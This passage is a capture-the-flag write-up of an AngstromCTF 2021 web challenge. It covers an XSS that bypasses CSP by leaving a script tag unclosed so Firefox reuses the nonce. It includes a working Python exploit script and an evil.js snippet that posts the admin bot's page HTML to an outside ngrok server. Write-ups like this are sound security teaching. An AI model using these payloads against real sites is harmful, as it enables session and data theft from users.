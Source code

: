 ```python
data = {"score" : "123", "name" : '<script>alert(1)</script>'}
```

![angstrom_ctf](/assets/img/AngstromCTF_2021/web_4.jpeg){: .image-100 }
Hmm, seems like the CSP is blocking our script's execution. This happens because we didn't provide a valid nonce for the script tag hence the browser refuses to execute it. After some research I found [this post](https://krial057.github.io/blog/own-xss-challenge) explaining why using `<script src=//evil.com/script.js` can work in our case. Basically, as the XSS sink point is printed on the page just before the valid `<script nonce={nonce}>` tag, if we inject `<script attr=value attr=value ...` without closing the tag, firefox reuses the nonce from the script tag situated immediately after our payload.
![angstrom_ctf](/assets/img/AngstromCTF_2021/web_5.jpeg){: .image-100 }
That's some good news for us as it gives us carte blanche on what we can execute on the bot's browser. We can use the following script to setup a form with a single input, set it's value to admin's page html document and send it back to our local server.

```python
#!/usr/bin/python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
import re

data = {"score" : "123", "name" : '<form id="myform" action="https://8c68790a251f.ngrok.io/done" method="POST"><input id="myinput" name="data" value="test_value"/></form><script src="https://8c68790a251f.ngrok.io/evil.js" '}

# == Contents off evil.js ===
# document.getElementById('myinput').value = document.documentElement.innerHTML;
# document.getElementById("myform").submit();

# record score and get share token
r = requests.post('http://nomnomnom.2021.chall.actf.co/record', json=data, verify=False)
token = re.search('\/report/([a-f0-9]{16})', r.text)[0]
token = token[-16:]
print(token)

# report
r = requests.post("http://nomnomnom.2021.chall.actf.co/report/{}".format(token), verify=False)
```

![angstrom_ctf](/assets/img/AngstromCTF_2021/web_6.jpeg)

🏁 __actf{w0ah_the_t4g_n0mm3d_th1ng5}__{:.spoiler}
